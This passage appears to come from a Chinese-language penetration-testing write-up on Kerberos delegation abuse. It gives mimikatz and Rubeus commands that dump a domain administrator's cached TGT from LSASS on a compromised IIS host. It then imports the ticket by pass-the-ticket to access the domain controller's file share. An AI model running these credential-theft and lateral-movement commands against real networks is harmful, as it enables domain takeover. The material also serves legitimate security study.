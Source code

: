 4\. 此时域管理员的 TGT 已经缓存在 IIS-8 LSASS，通过 mimikatz/Rubeus 可导出：

```powershell
# mimikatz
privilege::debug 
sekurlsa::tickets /export
# rubeus
rubeus.exe triage
rubeus.exe dump # [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("aa..."))
```

![](/assets/images/move/2021-01-20-11-41-02.png)

测试当前无权限访问 DC 的 cifs 服务：

![](/assets/images/move/2021-01-20-11-43-27.png)

```powershell
mimikatz.exe "kerberos::ptt file.kirbi" "exit"
rubeus.exe ptt /ticket:file.kirbi
```

导入 DC administrator tgt 票据后可成功访问：

![](/assets/images/move/2021-01-20-15-04-11.png)
